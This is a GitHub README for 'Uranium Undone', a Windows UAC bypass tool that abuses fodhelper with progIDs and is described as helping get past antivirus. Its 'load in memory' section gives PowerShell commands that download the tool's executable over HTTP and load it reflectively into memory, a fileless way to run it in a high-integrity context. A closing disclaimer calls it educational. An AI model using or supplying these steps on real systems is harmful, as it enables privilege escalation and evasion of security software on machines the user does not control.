 # Uranium_Undone
Uranium Undone is a simple UAC bypass using fodhelper with progIDs to help get past AV. Last tested 3/15/2022.  
![image](https://user-images.githubusercontent.com/15575425/158689240-ee26005f-0b65-400c-a36f-f2400fe9f2f3.png)


## Usage 
Execute Program and then enter the command to execute as needed. Program cleans up key after execution is complete.   
Should open the program in a High INT context.  
![image](https://user-images.githubusercontent.com/15575425/158689152-0dccaf68-848d-451e-a6a1-163834382959.png)

## load in memory
1. "$data = (New-Object System.Net.WebClient).DownloadData('http://127.0.0.1:8081/Uranium_Undone.exe')"  
2. "$assem =[System.Reflection.Assembly]::Load($data)"  
3. "[Uranium_Undone.Program]::Main(" ")"  
**Double quotes on outsides of commands not needed are just for formatting**  

![image](https://user-images.githubusercontent.com/15575425/158689912-48fdac6c-eb19-4e45-98e2-2b9a1b57fc18.png)

## credit
Based on Joe Helle's (The mayor) Articles https://medium.themayor.tech/utilizing-a-common-windows-binary-to-escalate-to-system-privileges-c16482cced4b

## Disclaimer
I am not responsible for actions taken by users of Uranium Undone. Uranium Undone was released solely for educational and ethical purposes.  
